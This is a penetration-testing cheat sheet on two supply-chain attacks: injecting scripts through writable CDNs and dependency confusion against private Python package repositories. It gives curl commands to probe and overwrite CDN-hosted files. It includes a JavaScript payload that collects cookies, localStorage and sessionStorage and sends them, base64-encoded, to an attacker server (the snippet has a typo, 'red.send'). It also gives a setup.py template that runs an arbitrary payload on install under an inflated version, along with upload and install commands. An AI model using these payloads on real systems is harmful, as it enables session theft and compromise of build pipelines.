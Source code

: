 # Dependency Injection

## Unprotected CDNs

If the web application uses a third party server to retrieve resources such as scripts it is possible to attack the CDN and inject malicious code that is then executed in the page.&#x20;

Identify the CDN server by reviewing the requests sent by the page. This can be done easily in the Network tab of the browser's development tool.

### Verify server vulnerability

Use the following requests to verify if the CDN supports unauthenticated writing via PUT or POST methods

#### Options request

```
curl -i -X OPTIONS <url>
curl -i --request-target "*" -X OPTIONS <base url>
```

#### test unrestricted file upload

```
#PUT
curl -X PUT <url>/test.js -d "test"

#POST
curl -X POST <url> -d @<path to file>
curl -X POST <url> -F @<path to file>               #as form encoded
curl -X POST <url> --data-binary @<path to file>    #use this if file is corrupted
```

### Code injection

Start local server

```
python -m http.server <PORT>
python -m SimpleHttpServer
```

Useful functions to extract data

```
document.cookie;
document.getElementById('<field>').value;
JSON.stringify(localStorage);
JSON.stringify(sessionStorage);
```

Payload to send data to our server

```
var req = new XMLHttpRequest();
var data = <code here>;
var data_encoded = btoa(unescape(encodeURIComponent(data)));
req.open('GET','<URL>:<PORT>/data:'+data_encoded,true); 
red.send();       
```

PUT request to replace resource with one containing our payload

```
curl -T <local file> http://<url>/<remote file>
```

## Dependency confusion

This vulnerability arises when an application uses an internal package that is managed by a private repository. If we can upload our own package to the repository, during build time the python package manager will find duplicate packages and will pick the one with the latest version (this is why we upload a package with v9000 as version). This allows us to inject malicious code in the installer that will be executed by the package manager after retrieving our malicious package.

### Package structure

```
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

PACKAGE_NAME = '<PACKAGE>'
VERSION = 'v9000.9.9'
URL = 'http://github.com/{}'.format(PACKAGE_NAME)

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         os.system('<PAYLOAD>')

setup(
        name=PACKAGE_NAME,
        url=URL,
        download_url='{}/archive/{}.tar.gz'.format(URL,VERSION),
        author='John Doe',
        author_email='real@email.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description='test package',
        cmdclass={
            'install': PostInstallCommand
        },
)
```

### Compile and upload the package

Generate package and upload

```
python3 setup.py sdist
twine upload dist/<package>-9000.9.9.tar.gz --repository-url <repository url>
```

Download package for testing or to transfer the payload on another compromised machine

```
pip3 install <package> --trusted-host <repository domain> --index-url <repository url> --verbose
```
